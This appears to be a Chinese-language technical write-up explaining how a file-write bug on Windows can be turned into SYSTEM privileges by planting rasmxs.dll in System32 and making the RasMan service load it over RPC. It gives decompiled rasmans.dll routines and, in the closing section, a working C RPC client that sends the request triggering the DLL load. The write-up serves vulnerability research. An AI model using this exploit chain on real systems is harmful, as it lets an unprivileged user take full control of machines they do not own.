

# Windows下一种任意文件移动/复制/创建到本地提权的方法

## 前提

存在某个漏洞，可以往Windows下任意目录移动/复制/创建任意文件.<br>

## 思路

往C:/Windows/System32中创建rasmxs.dll文件,普通用户使用RPC调用RasMan服务中的LoadDeviceDLL函数加载rasmxs.dll,RasMan服务是以NT/SYSTEM权限启动的,由此完成本地提权.<br>

## 细节

RasMan服务存在RPC方法RasRpcSubmitRequest,具体是由rasmans.dll中的RasRpcSubmitRequest函数进行处理的.<br>

<br>

RasRpcSubmitRequest函数会进一步调用ServiceRequestInternal函数,ServiceRequestInternal函数中会根据传入的函数索性从函数表RequestCallTable中取出对应的处理函数进行调用.<br>

```
__int64 __fastcall RasRpcSubmitRequest(void *g_hRpcHandle, int *a2, unsigned int n0x1C00)
{
  __int64 a4[3]; // [rsp+20h] [rbp-18h] BYREF

  a4[0] = 0LL;
  a4[1] = -1LL;
  ServiceRequestInternal(a2, n0x1C00, g_hRpcHandle, a4);
  ******
}

void __fastcall ServiceRequestInternal(int *a1, unsigned int n0x1C00, void *g_hRpcHandle, __int64 a4)
{
  ******
  if ( n0x1C00 >= 0x1C00 && a1 && (n0x9D = a1[1], n0x9D <= 0x9D) )
  {
    if ( RasmanShuttingDown )
    {
        ******
    }
    else if ( ValidateCall(n0x9D, a4, g_hRpcHandle, a4) )
    {
      _0xC_ValidateDeviceEnum = RequestCallTable[4 * a1[1] + 2];// 0xC ValidateDeviceEnum
      if ( !_0xC_ValidateDeviceEnum || _0xC_ValidateDeviceEnum(a1, n0x1C00) )
      {
        ******
        if ( a1[2] == 4 && (v14 = RequestCallTable[4 * a1[1] + 1]) != 0LL )
        {
          v14(PortByHandle, a4, a1 + 6, n0x1C00);
        }
        else
        {
          _0xC_CallDeviceEnum = RequestCallTable[4 * a1[1]];// 0xC CallDeviceEnum
          if ( _0xC_CallDeviceEnum )
          {
            _0xC_CallDeviceEnum(PortByHandle, a4, a1 + 6);
          }
    ******
}

.rdata:00000001800F22D0 RequestCallTable dq 0                   ; DATA XREF: ServiceRequestInternal+144↑o
.rdata:00000001800F22D0                                         ; ServiceRequestInternal:loc_18002C7AD↑o ...
.rdata:00000001800F22D8 qword_1800F22D8 dq 0                    ; DATA XREF: ValidateAddConnectionPort+D↑o
.rdata:00000001800F22D8                                         ; ValidateGetDialMachineEventContextInfo+D↑o ...
.rdata:00000001800F22E0                 dq 0
.rdata:00000001800F22E8 qword_1800F22E8 dq 0                    ; DATA XREF: ValidateCall+7F↑o
.rdata:00000001800F22F0                 dq offset PortOpenRequest
.rdata:00000001800F22F8                 dq offset ThunkPortOpenRequest
.rdata:00000001800F2300                 dq offset ValidatePortOpen
.rdata:00000001800F2308                 dq 3
.rdata:00000001800F2310                 dq offset PortCloseRequest
.rdata:00000001800F2318                 dq 0
.rdata:00000001800F2320                 dq offset ValidateRemoveNotificationEx
.rdata:00000001800F2328                 dq 3
.rdata:00000001800F2330                 dq offset PortGetInfoRequest
.rdata:00000001800F2338                 dq 0
.rdata:00000001800F2340                 dq offset ValidateGetInfo
.rdata:00000001800F2348                 dq 3
.rdata:00000001800F2350                 dq offset PortSetInfoRequest
.rdata:00000001800F2358                 dq 0
.rdata:00000001800F2360                 dq offset ValidatePortSetInfo
.rdata:00000001800F2368                 dq 3
.rdata:00000001800F2370                 dq offset DeviceListenRequest
.rdata:00000001800F2378                 dq 0
.rdata:00000001800F2380                 dq offset ValidateUpdateDefaultRouteSettings
.rdata:00000001800F2388                 dq 3
.rdata:00000001800F2390                 dq offset PortSendRequest
.rdata:00000001800F2398                 dq offset ThunkPortSendRequest
.rdata:00000001800F23A0                 dq offset ValidatePortSend
.rdata:00000001800F23A8                 dq 3
.rdata:00000001800F23B0                 dq offset PortReceiveRequest
.rdata:00000001800F23B8                 dq offset ThunkPortReceiveRequest
.rdata:00000001800F23C0                 dq offset ValidatePortReceive
.rdata:00000001800F23C8                 dq 3
.rdata:00000001800F23D0                 dq offset CallPortGetStatistics
.rdata:00000001800F23D8                 dq 0
.rdata:00000001800F23E0                 dq offset ValidatePortGetStatistics
.rdata:00000001800F23E8                 dq 3
.rdata:00000001800F23F0                 dq offset PortDisconnectRequest
.rdata:00000001800F23F8                 dq offset ThunkPortDisconnectRequest
.rdata:00000001800F2400                 dq offset ValidatePortGetBundle
.rdata:00000001800F2408                 dq 3
.rdata:00000001800F2410                 dq offset PortClearStatisticsRequest
.rdata:00000001800F2418                 dq 0
.rdata:00000001800F2420                 dq 0
.rdata:00000001800F2428                 dq 3
.rdata:00000001800F2430                 dq offset ConnectCompleteRequest
.rdata:00000001800F2438                 dq 0
.rdata:00000001800F2440                 dq 0
.rdata:00000001800F2448                 dq 3
.rdata:00000001800F2450                 dq offset CallDeviceEnum ; 0xC*4 + 0
.rdata:00000001800F2458                 dq 0                    ; 1
.rdata:00000001800F2460                 dq offset ValidateDeviceEnum ; 2
```

当函数索引为0xC时,就会调用CallDeviceEnum函数.CallDeviceEnum函数会继续调用LoadDeviceDLL函数.<br>

```
void __fastcall CallDeviceEnum(__int64 a1, __int64 a2, char *a3)
{
  ******
  do
  {
    if ( n16 == 0xFFFFFFFF80000012uLL )
      break;
    v9 = String1_1[a3 - String1 + 4];
    if ( !v9 )
      break;
    *String1_1++ = v9;
    --n16;
  }
  while ( n16 );
  String1_2 = String1_1 - 1;
  if ( n16 )
    String1_2 = String1_1;
  v11 = (a3 + 4);
  *String1_2 = 0;
  if ( _stricmp(String1, "NULL") )
  {
    v12 = *a3;
    if ( *a3 )
    {
      hMem = a3 + 12;
      v14 = *a3;
    }
    else
    {
      hMem = LocalAlloc(LMEM_ZEROINIT, (1000 * (MaxPorts + 2)));
      if ( !hMem )
      {
        *(a3 + 2) = 0;
        *v11 = 0;
        *a3 = GetLastError();
        WPP_GLOBAL_Control = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control != &WPP_GLOBAL_Control
          && (HIDWORD(WPP_GLOBAL_Control[1].Blink) & 0x2000) != 0
          && BYTE1(WPP_GLOBAL_Control[1].Blink) >= 6u )
        {
          n207 = 209LL;
          goto LABEL_17;
        }
        return;
      }
      v14 = 1000 * (MaxPorts + 2);
    }
    *v11 = v14;
    DeviceDLL = LoadDeviceDLL(a1, String1);
    ******
}
```

LoadDeviceDLL函数会判断输入的参数,如果符合要求,就会调用LoadLibraryExA加载rasmxs.dll.<br>

```
char *__fastcall LoadDeviceDLL(__int64 a1, char *String1)
{
  ******
  *String1a = 0LL;
  v5 = MapDeviceDLLName(a1, String1, String1a);
  if ( v5 )
  {
    ******
  }
  Library = LoadLibraryExA(String1a, 0LL, 0x800u);
  ******
}

__int64 __fastcall MapDeviceDLLName(__int64 a1, const char *String1, _BYTE *String1a)
{
  ******
  if ( _stricmp(String1, "MODEM") || _stricmp(*(a1 + 48), "RASTAPI") )
  {
    if ( !_stricmp(String1, "MODEM") || !_stricmp(String1, "PAD") || !_stricmp(String1, "SWITCH") )
    {
      n16 = 16LL;
      v14 = "RASMXS" - String1a;
      do
      {
        if ( n16 == -2147483630 )
          break;
        v15 = String1a[v14];
        if ( !v15 )
          break;
        *String1a++ = v15;
        --n16;
      }
      while ( n16 );
      goto LABEL_36;
    }
    ******
  }
LABEL_36:
  String1a_1 = String1a - 1;
  if ( n16 )
    String1a_1 = String1a;
  *String1a_1 = 0;
  if ( WPP_GLOBAL_Control != &WPP_GLOBAL_Control
    && (HIDWORD(WPP_GLOBAL_Control[1].Blink) & 0x2000) != 0
    && BYTE1(WPP_GLOBAL_Control[1].Blink) >= 6u )
  {
    WPP_SF_D(WPP_GLOBAL_Control[1].Flink, 67LL, &WPP_abf1b0663f6a365273cd959d6d5a1f5f_Traceguids, 0LL);
  }
  return 0LL;
}
```

## 实现

```
int loadlibrary()
{
    RPC_STATUS status;
    RPC_BINDING_HANDLE hBind = NULL;

    printf("=== RASRPC Client - RasRpcSubmitRequest ===\n\n");

    InitClientInterface();

    status = CreateBinding(&hBind);
    if (status != RPC_S_OK) {
        printf("[-] Failed to create RPC binding. Error: 0x%08X\n", status);
        return 1;
    }

    DWORD bufferSize = 0x800;
    DWORD* requestBuffer = (DWORD*)calloc(4, bufferSize);
    if (!requestBuffer) {
        printf("[-] Memory allocation failed.\n");
        RpcBindingFree(&hBind);
        return 1;
    }

    printf("[*] Sending RasRpcSubmitRequest (opnum 12) \n");

    memset(requestBuffer, 0, 0x800);
    requestBuffer[0] = 1;
    requestBuffer[1] = 0xC; //function code  
    requestBuffer[2] = 4;
    memcpy(&requestBuffer[7], "SWITCH", 6);

    RpcTryExcept
    {
        DWORD result = RasRpcSubmitRequest(hBind, requestBuffer, 0x1c00);
        printf("[*] Call completed. Result: 0x%08X\n", result);

        printf("[*] Response buffer (first 64 bytes):\n    ");
        for (int i = 0; i < 64 && i < (int)bufferSize; i++) {
            printf("%02X ", requestBuffer[i]);
            if ((i + 1) % 16 == 0) printf("\n    ");
        }
        printf("\n");
    }
    RpcExcept(1)
    {
        DWORD exCode = RpcExceptionCode();
        printf("[-] RPC exception: 0x%08X\n", exCode);
    }
    RpcEndExcept

    free(requestBuffer);
    RpcBindingFree(&hBind);

    printf("\n[*] Done.\n");
    return 0;
}
```